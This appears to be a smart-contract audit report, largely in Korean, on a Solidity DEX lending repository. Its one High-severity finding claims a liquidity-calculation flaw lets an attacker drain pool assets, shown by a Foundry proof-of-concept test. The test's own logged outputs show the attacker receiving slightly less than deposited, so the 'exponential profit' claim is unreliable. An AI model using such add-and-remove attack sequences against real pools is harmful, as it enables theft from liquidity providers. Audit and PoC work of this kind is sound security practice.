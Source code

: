 # ZG9rcGFyazIx

## Scope

<table>
  <tr>
    <th>Name</th>
    <td>Dex Security Audit</td>
  </tr>
  <tr>
    <th>Target / Version</th>
    <td>Git Repository (<a href="https://bit.ly/4grf5pU" target="_blank">DEX_Lending_solidity</a>): commit <mark>7c149b1257ebb4ec30925da15c2e9821c4db5037</mark> (<mark>main</mark> branch)</td>
  </tr>
  <tr>
    <th>Application Type</th>
    <td>Smart contracts</td>
  </tr>
  <tr>
    <th>Lang. / Platforms</th>
    <td>Smart contracts [Solidity]</td>
  </tr>
</table>

## Findings

### #1 `001` The overall calculation of metrics for the CPMM DEX is incorrect

|ID|Summary|Severity|
|:---:|-------|:---:|
|001|*CPMM DEX* 로서의 전반적인 Calculation 오류|High|

#### Description

일반적인 *DEX*를 구현 할 때, *Stable Coin*의 경우 *CSMM*, 기타 일반 토큰의 경우 *CPMM* 방식으로 구현하게 되는데, 이를 위한 *Calculation* 과정이 잘못 구현되어 풀 내 자산 탈취가 가능함. 가령, `addLiquidity()` 함수 내에서, *Pool* 내 유동성이 존재하지 않을 때는, 두 자산의 각각의 초기 예치자산 수량 곱의 제곱근으로 LP 토큰의 유동성이 계산되고, 이후 추가적인 유동성이 공급될 때는 별도의 계산으로 처리되는 데, 이 때의 계산이 적절하지 않음. 이에, 아래와 같이 공격자가 유동성 예치 후에 즉시 예치 해제시, 자신이 예치한 유동성보다 기하급수적으로 많은 토큰을 돌려 받음.

```solidity
function testAddLiquidityAndThenRemoveLiquidity() external {
    uint256 lpReturn = dex.addLiquidity(1000 ether, 2000 ether, 0);
    emit log_named_uint("lpReturn", lpReturn); // lpReturn: 1414213562373095048801

    // Assume that Address 1 belongs to the attacker.
    vm.prank(address(1));
    uint256 lpReturnByAddressOne = dex.addLiquidity(99 ether, 200 ether, 0);
    emit log_named_uint("lpReturnByAddressOne", lpReturnByAddressOne); // lpReturnByAddressOne: 140007142674936409831

    vm.prank(address(1));
    (uint256 xReceived, uint256 yReceived) = dex.removeLiquidity(140007142674936409831, 0, 0);
    emit log_named_uint("xRecieved", xReceived); // xRecieved: 98999999999999999999
    emit log_named_uint("yReceived", yReceived); // yReceived: 198180163785259326660
}
```

#### Impact

**High**

공격자가 *Pool* 내 자산을 탈취할 수 있음.

#### Recommendation

*CPMM DEX* 구현 간에 `K`(*Constant Value*) 값의 도입 등, 전반적인 *Pool* 내 자산 비율 *Calculation* 정교화 및 고도화 요망.